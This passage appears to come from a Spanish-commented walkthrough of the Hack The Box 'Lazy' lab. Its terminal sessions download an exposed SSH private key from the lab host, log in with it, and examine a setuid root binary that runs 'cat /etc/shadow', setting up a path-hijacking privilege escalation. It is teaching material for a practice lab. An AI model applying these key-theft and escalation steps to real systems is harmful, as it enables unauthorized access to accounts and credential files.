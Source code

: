![](/assets/images/htb-lazy/lazy3.PNG)

```console
└─$ curl -s http://10.10.10.18/mysshkeywithnamemitsos > id_rsa
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa  mitsos@10.10.10.18
mitsos@LazyClown:~$
```
--------------------
# Part 3: Path hijacking

```console
mitsos@LazyClown:~$ ls
backup  cat  peda  user.txt
mitsos@LazyClown:~$ ls -l 
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7  2021 cat
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7  2021 peda
-r--r--r-- 1 mitsos mitsos   33 Jan 13 12:45 user.txt
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
mitsos@LazyClown:~$ ./backup
# Printea una copia del /etc/passwd

mitsos@LazyClown:~$ ltrace ./backup
__libc_start_main(0x804841d, 1, 0xbffffce4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
# El ltrace ejecuta el binario con bajos privilegios asi que no muestra el archivo este, pero si nos dice
# que se ha hecho system("cat /etc/shadow")

mitsos@LazyClown:~$ strings backup | grep "cat"
cat /etc/shadow
# Confirmamos
```
